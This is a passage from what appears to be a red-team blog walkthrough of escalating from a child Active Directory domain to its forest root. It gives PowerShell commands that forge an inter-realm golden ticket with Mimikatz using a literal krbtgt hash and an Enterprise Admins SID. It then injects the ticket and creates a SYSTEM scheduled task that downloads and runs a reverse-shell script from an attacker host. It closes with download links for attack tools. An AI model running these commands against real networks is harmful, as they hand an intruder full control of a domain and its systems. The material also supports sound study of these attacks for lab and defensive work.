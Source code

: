 ### <span style="color:#F1C232">2. Create the inter-realm TGT using a Golden Ticket</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<current-domain> /sid:<current-domain-SID> /sids:<target-domain-SID>-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\krbtgt_tkt.kirbi"'
```

### <span style="color:#F1C232">3. Now inject the ticket with Mimikatz</span>
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\krbtgt_tkt.kirbi"'
# Now we can also execute wmi commands
gwmi -Class win32_computersystem -ComputerName <target-domain-user-dc>
```

### <span style="color:#F1C232">4. Create a schedule to get a shell as NT AUTHORITY\SYSTEM</span>
```powershell
schtasks /create /S <target-domain-user-dc> /SC Weekly /RU "NT AUTHORITY\SYSTEM" /TN "pwned" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.x.x/Invoke-PowerShellTcp.ps1''')'"
schtasks /Run /S <target-domain-user-dc> /TN "pwned"
```

# <span style="color:lightblue">Tools Used</span>

1. Invoke-Mimikatz.ps1 download from here : [https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
2. asktgs_compiled download from here : [https://github.com/NotScortator/asktgs_compiled](https://github.com/NotScortator/asktgs_compiled)
2. Rubeus.exe download from here : [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

If you find my articles interesting, you can buy me a coffee 

---

**Support SecureYourGear**: Master [forest trust attacks](https://www.secureyourgear.com/categories/red-teaming/) and explore our [advanced AD techniques](https://www.secureyourgear.com/categories/hackthebox/).
